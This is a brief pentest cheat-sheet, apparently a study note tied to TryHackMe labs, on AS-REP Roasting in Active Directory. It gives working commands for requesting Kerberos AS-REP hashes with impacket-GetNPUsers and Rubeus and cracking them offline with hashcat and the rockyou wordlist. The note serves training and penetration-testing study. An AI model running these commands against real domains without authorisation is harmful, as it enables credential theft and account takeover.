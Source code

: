 # ASREP Roasting

 AS-REP-Roasting - `impacket-GetNPUsers`; commonly found in real world with single signon accounts that will be logging in and out continuously all day to reduce load on the DC. [[Impacket-Cheatsheet]]
```bash
impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete
```

Output all Kerberos Hash modes  
```bash
hashcat --help | grep -i "Kerberos"
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

[[Rubeus-Cheatsheet]]
```powershell
.\Rubeus.exe asreproast /nowrap
```


## References

[THM Room Exploiting AD](https://tryhackme.com/room/exploitingad)
[Wikipedia](https://en.wikipedia.org/wiki/Kerberos_(protocol))
[THM Room Attacking Kerberos](https://tryhackme.com/room/attackingkerberos)